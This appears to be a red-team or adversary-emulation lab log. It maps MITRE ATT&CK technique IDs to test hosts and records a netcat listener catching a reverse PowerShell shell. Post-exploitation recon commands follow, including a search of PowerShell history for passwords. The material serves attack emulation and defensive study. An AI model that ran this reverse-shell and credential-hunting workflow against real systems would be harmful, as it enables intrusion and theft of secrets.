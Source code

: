     - IT-Linux-PC-1
    - T1033
    - T1082 (x4)
    - T1518 (x2)
    - T1083 (x4)
    - T1087.001, T1201
    - T1046, T1595.001, T1590.005, T1046
    - T1021.004, T1041
    - T1046, T1595.001, T1590.005, T1595.002
    - T1548.003

    - T1033
    - T1083 (x2)
    - T1021.004, T1041
    - T1021.004
    
    - IT-Win-Share
    - T1083
    - T1059.001
    - T1033
    - T1083 (x5)
    - T1021.004, T1041
    - T1105, T1059.001
    - T1046, T1595.001, T1590.005
    - T1046, T1595.001, T1590.005
    - T1571, T1021.004
    
    - OT-Linux-PLC
    - T1083
    - T1021.004, T1041
    
execution log:
```
┌──(debian㉿APT-Outside-Attacker)-[~]
└─$ stty raw -echo; (stty size; cat) | nc -lvnp 8000
listening on [any] 8000 ...

User TestUser executes malicious file

-->

Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\TestUser\Desktop> 

whoami
systeminfo
type %userprofile%
cat (Get-PSReadlineOption).HistorySavePath | sls passw
ls
cd ..
ls
cd .\Documents\
ls
net user
net users
net localgroup
net view
ifconfig
ipconfig
ipconfig /all
netstat -ano
route print
cd ..
```

[localhost]: PS C:\Users\adm1n\Documents> whoami
[localhost]: PS C:\Users\adm1n\Documents> whoami